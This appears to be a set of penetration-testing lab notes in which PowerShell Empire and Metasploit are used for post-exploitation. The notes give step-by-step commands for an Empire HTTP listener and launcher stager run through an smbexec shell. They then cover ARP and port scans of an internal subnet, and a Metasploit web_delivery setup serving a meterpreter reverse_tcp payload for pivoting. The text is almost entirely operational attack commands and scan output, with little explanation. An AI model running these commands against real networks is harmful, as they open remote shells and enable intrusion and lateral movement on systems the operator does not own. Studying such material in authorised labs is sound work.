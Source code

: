 ### in Empire:
listeners
uselistener http
info
set Host <kali ip>
execute
main

usestager multi/launcher
set listener http
execute

copy the payload and execute into the first shell from smbexec
// we should get a shell back from Empire = they call this agent

agents
interact <agent number>
// its the same as session -i <number> from Metasploit

usemodule situation_awareness/network/arpscan
set CIDR 10.100.11.0/24
set Agent <agent number>
execute

- we discovered 2 hosts: 100 e 101

```powershell
	MAC               Address      
---               -------      
00:50:56:A0:4F:BC 10.100.11.1  
00:50:56:A0:13:FF 10.100.11.100
00:50:56:A0:53:98 10.100.11.101
00:50:56:A0:53:98 10.100.11.255
```

### now lets search for open ports
usemodule powershell/situational_awareness/network/portscan
set Hosts 10.100.11.100 = ip of the target found
set Agent <agent number>
execute

```powershell
Hostname      OpenPorts       
--------      ---------       
10.100.11.100 445,139,135,8443
```

### Passing the session to Metasploit, because we will need to do some Pivot
In Metasploit:
```powershell
use exploit/multi/script/web_delivery
set target 2 = powershell
set SRVHOST <kali ip>
set payload windows/meterpreter/reverse_tcp
set lhost <kali ip>
exploit -j
copy the URL
```
